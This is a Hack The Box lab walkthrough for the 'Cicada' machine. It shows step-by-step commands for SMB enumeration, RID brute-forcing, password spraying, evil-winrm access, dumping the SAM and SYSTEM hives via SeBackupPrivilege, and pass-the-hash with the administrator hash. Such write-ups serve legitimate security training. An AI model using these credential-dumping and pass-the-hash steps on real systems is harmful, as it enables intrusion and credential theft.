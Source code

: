 # Hack The Box (HTB) - Cicada Walkthrough

## Overview
This guide walks through the process of connecting to a Hack The Box (HTB) machine named **Cicada**, performing enumeration, exploiting SMB shares, and ultimately gaining root access.

## Prerequisites
- OpenVPN installed
- nmap
- smbclient
- evil-winrm
- pypykatz
- netexec

## Steps

### 1. Connecting to HTB
Download and connect to the VPN:
```sh
ls
sudo openvpn <path_to_vpn_file>
```

### 2. Initial Enumeration
Scan the target machine using **nmap**:
```sh
nmap -sV -sC -T4 -oN Cicada.txt <ip.address>
```
#### Flags Explanation:
- `-sV` : Service/version detection
- `-sC` : Default script scanning
- `-T4` : Aggressive scanning mode
- `-oN Cicada.txt` : Save output to a file

### 3. Add Host to `/etc/hosts`
```sh
echo "<ip.address> cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```
Verify the entry:
```sh
cat /etc/hosts
```

### 4. SMB Enumeration
List available shares:
```sh
smbclient -N -L //cicada.htb
```
If `smbclient` is not installed:
```sh
sudo apt install smbclient
```

Access the **HR** share:
```sh
smbclient -N //cicada.htb/HR
```
Download files:
```sh
smb: \> get "Notice from HR.txt"
cat 'Notice from HR.txt'
```

### 5. SMB User Enumeration
Brute-force user enumeration:
```sh
nxc smb cicada.htb -u 'anonymous' -p '' --rid-brute 3000
```
Extract usernames and save them:
```sh
nano users.txt
```

Check for valid credentials:
```sh
nxc smb cicada.htb -u users.txt -p '<password_from_notice>'
```
Confirm valid user:
```sh
nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p '<password>' --users
```

### 6. Further SMB Access
Login with the new credentials:
```sh
smbclient //cicada.htb/DEV -U 'cicada.htb\david.orelious'
```
Download the script:
```sh
get Backup_script.ps1
cat Backup_script.ps1
```

### 7. Remote Access via Evil-WinRM
```sh
evil-winrm -i cicada.htb -u '<username>' -p '<password>'
```
Verify access:
```sh
whoami
ls
```

### 8. Extracting Sensitive Files
Move directories:
```sh
cd ..
cd Desktop
```
Read **user.txt**:
```sh
type .\user.txt
```

### 9. Privilege Escalation
Check privileges:
```sh
whoami /priv
```
If **SeBackupPrivilege** is enabled, exploit it:
```sh
mkdir C:\Temp
cd C:\Temp
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
```
Download registry hives:
```sh
download sam
download system
```

### 10. Cracking the Administrator Password
Check if `pypykatz` is installed:
```sh
pip show pypykatz
```
Extract password hashes:
```sh
pypykatz registry --sam sam system
```
Find the **Administrator** hash and use it for authentication:
```sh
evil-winrm -i cicada.htb -u administrator -H <hash_value>
```
Verify access:
```sh
whoami
```
Retrieve the final flag:
```sh
cd ..
cd Desktop
ls
type .\root.txt
```

## Conclusion
By following these steps, we successfully exploited SMB shares, retrieved credentials, escalated privileges, and gained full system access on **Cicada**.
